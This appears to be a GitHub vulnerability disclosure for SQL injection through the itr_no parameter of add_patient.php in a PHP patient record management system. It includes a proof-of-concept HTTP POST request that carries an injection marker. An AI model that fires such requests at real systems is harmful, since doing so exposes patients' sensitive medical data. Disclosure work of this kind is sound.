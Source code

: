 # patient-record-management-system-in-php has sql injection in add_patient.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

add_patient.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in add_patient.php The parameters that can be controlled are as follows: $itr_no. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/53442d2c-c071-49b9-8063-17e60c918e40)



## POC

asset the url，can get the sql reqult on the page.

```
POST /add_patient.php HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://healthcarepatientrecordmanagementsystem
Connection: close
Referer: http://healthcarepatientrecordmanagementsystem/add_patient.php?
Upgrade-Insecure-Requests: 1
Priority: u=0, i

save_patient=1&itr_no=1*
```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
